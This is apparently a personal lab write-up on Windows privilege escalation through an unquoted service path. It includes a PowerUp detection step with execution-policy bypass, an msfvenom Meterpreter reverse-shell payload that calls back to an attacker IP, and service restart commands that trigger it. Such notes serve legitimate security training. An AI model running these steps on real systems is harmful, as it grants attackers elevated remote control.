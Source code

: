 # Detection
---
- Using `PowerUp.ps1`:
	- `powershell.exe -ep bypass`
	- `. .\PowerUp.ps1`
	- `Invoke-AllChecks`
	- ![[Pasted image 20250418161105.png]]

# Exploitation
---
- Transfer the `msfvenom`executable shell:
	- `msfvenom -p windows/meterpreter/reverse_tcp lhost=10.8.98.106 lport=443 -f exe -o Common.exe`
	- Transfer this as:
		- `C:\Program Files\Unquoted Path Service\Common.exe`
		- ![[Pasted image 20250418161436.png]]
- Setup the msfconsole and `run`:
- Restart the service:
	- `sc stop unquotedsvc`
	- `sc start unquotedsvc`
	![[Pasted image 20250418161616.png]]
- Got a shell :) :
	- ![[Pasted image 20250418161646.png]]
